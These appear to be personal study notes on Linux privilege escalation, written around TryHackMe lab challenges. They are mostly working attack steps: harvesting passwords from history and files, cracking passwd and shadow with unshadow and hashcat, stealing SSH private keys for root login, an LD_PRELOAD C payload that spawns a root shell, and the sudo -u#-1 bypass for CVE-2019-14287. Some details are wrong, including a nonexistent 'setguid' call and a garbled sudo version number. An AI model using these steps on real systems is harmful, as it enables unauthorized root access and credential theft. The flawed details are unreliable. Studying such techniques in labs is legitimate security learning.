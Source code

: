 #### Pass & File Perm:

`history`
`cat ~/.bash_history`
[Payload-all-the-things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
 * understanding the file system and elevate acc to that
 
 #find `find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;`

if apache web server was running, it would contains sensitive info's within it.

##### Weak file permissions:
Read access only for passwd file

![[Pasted image 20230808062354.png]]

	copy the passwd and shadow file in victim machine.
	use the tool `unshadow passwd shadow`
	it will merge  the contents with passwd file, then you are good to crack it.
	Hashcracking in hashcat.


#### Escalation via SSH Keys:
* `find / -name authorized_keys 2> /dev/null` #find 
* `find / -name id_rsa 2> /dev/null`
id_rsa is private

###### Creation of SSH keys:
Generating a Key Pairs:
`ssh-keygen -b 4096`
you can also add the generated ssh public key in root directory, if you knows the root password.

`ssh-copy-id root@ip`
	ssh key copied from generated machine to root machine.
After using copy id command the id_rsa.pub file has been renamed as `authorized keys` in the root machine.

###### Escalating the privileges:
copy the id_rsa in victim machine.

`chmod 600 id_rsa ` - change the file permission.

Connect to the root account.
```shell
ssh -i id_rsa root@machine_IP
```
	id_rsa is a private key of machine


### SUDO:
##### Shell Escape Sequence:
An bin uses with nopasswd and if it was root, we can try to access the root using GTFO bins.

![[Pasted image 20230808070610.png]]

GTFO Bins:
![[Pasted image 20230808070901.png]]
#### Escalating via LD_PRELOAD:
How to find it?
	after running the command sudo -l you can see the env variable set as LD_preload
	![[Pasted image 20230808093203.png]]
[[LD_PRELOAD]]: #Pending 
	Dynamic linker, available in most unix. preloading the shared lib for any other library was loaded.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
	unsetenv("LD_PRELOAD");
	setguid(0);
	setuid(0);
	system("/bin/bash");
}
```

```shell
	gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
	PIC - position independent code 

```shell 
sudo LD_PRELOAD=/home/user/shell.so apache2
```

#challenge **Simple CTF in tryhackme**

```shell
python3 dirsearch.py -u http://IP -e php,html -x 400,401,403
```

vim root escalation work.
`sudo vim`
#### CVE 2019 - 14287

[ExploitDB](https://www.exploit-db.com/exploits/47502)
exploit works with - sudo version <1.2.28 #MustTry

#challenge  Sudo Security Bypass in TryHackMe

**Exploit:**
```shell
sudo -u#-1 /bin/bash
```

![[Pasted image 20230808094621.png]]

#challenge Sudo Buffer Overflow in tryhackme


#### CVE 2019 - 18634
[CVEDetails](https://github.com/saleemrashid/sudo-cve-2019-18634)

basically the attacks works on sudo version < 1.8.x and pwfeedback enabled. it will exploit the bufferoverflow in victim machine and gain access to the root user.
`cat /etc/sudoers`

if any asterix is coming while typing the password means `pwfeedback` has been mentioned in the /etc/sudoers file.